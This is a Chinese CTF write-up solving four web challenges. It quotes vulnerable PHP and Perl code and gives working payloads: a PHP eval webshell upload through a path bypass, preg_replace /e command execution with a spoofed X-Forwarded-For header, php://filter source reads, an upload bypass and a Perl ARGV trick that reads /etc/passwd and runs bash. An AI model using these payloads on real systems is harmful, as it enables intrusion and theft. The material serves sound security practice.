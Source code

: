 
虽然是考试周，可是实在不想天天刷题，写写CTF，承包一整天的快乐。

## 工控云管理系统项目管理页面解析漏洞
打开题目，读到源码，进行审计。

    <?php
      if (isset($_GET[id]) && floatval($_GET[id]) !== '1' && substr($_GET[id], -1) === '9') {
        include 'config.php';
        $id = mysql_real_escape_string($_GET[id]);
        $sql="select * from cetc007.user where id='$id'";
        $result = mysql_query($sql);
        $result = mysql_fetch_object($result);
      } else {
        $result = False;
        die();
      }

      if(!$result)die("<br >something wae wrong ! <br>");
      if($result){
        echo "id: ".$result->id."</br>";
        echo "name:".$result->user."</br>";
        $_SESSION['admin'] = True;
      }
     ?>
这里首先需要admin权限，需要绕过id的过滤：
`      if (isset($_GET[id]) && floatval($_GET[id]) !== '1' && substr($_GET[id], -1) === '9')`
这个的意思就是，将id浮点化之后仍然是1，并且id是以9结尾的。

可以使用`id=1--9`绕过，就是中间加上字符，浮点化就会舍弃后面的部分，但是字符串本身没有改变。
可以看到结果如下

![](./img/1.png)

下来是第二段代码

    <?php
     if ($_SESSION['admin']) {
       $con = $_POST['con'];
       $file = $_POST['file'];
       $filename = "backup/".$file;

       if(preg_match('/.+\.ph(p[3457]?|t|tml)$/i', $filename)){
          die("Bad file extension");
       }else{
            chdir('uploaded');
           $f = fopen($filename, 'w');
           fwrite($f, $con);
           fclose($f);
       }
     }
     ?>
在第一段已经获得admin之后，if可以通过。然后post进来三个参数。
这里的php正则，具体的东西我没有仔细学，之后补一补，看看大佬的wp说这个是只过滤了最后一个"."后面的东西。

可以使用`../filename/.`来过滤，因为backup这个文件夹并没有用到，而是uploaded这个文件夹。

然后就把自己的木马写进去就OK。附上payload。

`con=<?php @eval($_POST['gwy2333']);?>&file=../gwy.php/.`

记住是POST，一开始忘了，GET了半天。

![](./img/2.png)

这时候再次访问uploaded/gwy.php，没有出现404，说明已经写好了。开启中国蚁剑。

![](./img/3.png)

测试一下，连接成功。直接去找flag。在html目录底下找见了flag。

![](./img/4.png)


## 后门入侵系统
打开网站，出现page这个GET的参数，联想到文件包含读源码的漏洞，读一读index.php。
`/index.php?page=php://filter/read=convert.base64-encode/resource=index.php`


![](./img/5.png)

base64解码后得到源码。进行审计。

	<?php
	if ($_SERVER['HTTP_X_FORWARDED_FOR'] === '127.0.0.1') {
	    echo "<br >Welcome My Admin ! <br >";
	    $pattern = $_GET[pat];
	    $replacement = $_GET[rep];
	    $subject = $_GET[sub];
	    if (isset($pattern) && isset($replacement) && isset($subject)) {
	        preg_replace($pattern, $replacement, $subject);
	    }else{
	        die();
	    }
	}
	?>

XFF改成127.0.0.1之后，GET进来三个参数。这里调用了preg_replace函数。并且没有对pat进行过滤，所以可以传入"/e"触发漏洞。

首先使用phpinfo看一下能不能执行，发现可以。

![](./img/6.png)

之后使用system("ls")发现可疑文件夹，之后cd进去ls，发现flag.php,cat读取即可。

![](./img/7.png)

`rep=system("cd+s3chahahaDir/flag+%26%26+ls")`
注意一下这里的引号里要加上加号，不能直接空格代替。还有&&要用url编码代替，是%26.

![](./img/8.png)


拿到flag，安心复习。



## RCTF-2015 bug
打开题目，提示你please login

一般可以注册的就直接注册，登陆进去。

![](./img/9.png)


退出后去主页修改密码。在第二步的时候抓包，将用户名改成admin.


![](./img/10.png)

本来这里是你自己注册的用户名。改成admin。

完成后登陆admin,点击message发现ip不允许，这里想到了之前提到的XFF。抓包改包。

![](./img/11.png)

进入网页发现下面提示到do，可以想到是上传。将get参数加上do=upload。


![](./img/12.png)

发现上传界面。这里用到了之前练习过的上传绕过，首先尝试了一些文件名或者数据格式的修改，发现均不通过。只能上图片木马。
在文件末尾加上

```
<script language="php">phpinfo()</script>
```

同时将文件名后缀改为php5。拿到flag。（这里只要把php的script传上去就行了，也可以是其他的木马）

![](./img/13.png)


## i-got-id-200
### csaw-ctf-2016-quals
打开题目发现有三个连接。file是上传，猜测存在上传漏洞，之后是参考大佬的WP，贴过来。

其中点击Files会跳转到/cgi-bin/file.pl文件中进行执行。这里可以上传任何一个文件，然后会在下方打印出内容。那么我们猜测后台逻辑大概是这样的。



	perl use strict; use warnings; use CGI;
	
	my $cgi= CGI->new; if ( $cgi->upload( 'file' ) ) { my $file= $cgi->param( 'file' ); while ( <$file> ) { print "$_"; } } 



那么，这里就存在一个可以利用的地方，param()函数会返回一个列表的文件但是只有第一个文件会被放入到下面的file变量中。而对于下面的读文件逻辑来说，如果我们传入一个ARGV的文件，那么Perl会将传入的参数作为文件名读出来。这样，我们的利用方法就出现了：在正常的上传文件前面加上一个文件上传项ARGV，然后在URL中传入文件路径参数，这样就可以读取任意文件了。

	/cgi-bin/file.pl?/etc/passwd

将参数写成这个，读取到了系统的文件。/etc/passwd是用来存储登陆用户信息的,

![](./img/14.png)

这里再次使用bash来读取文件目录。payload：

	 /cgi-bin/file.pl?/bin/bash%20-c%20ls${IFS}/| 

![](./img/15.png)

最后读取flag文件，拿到flag.

![](./img/16.png)
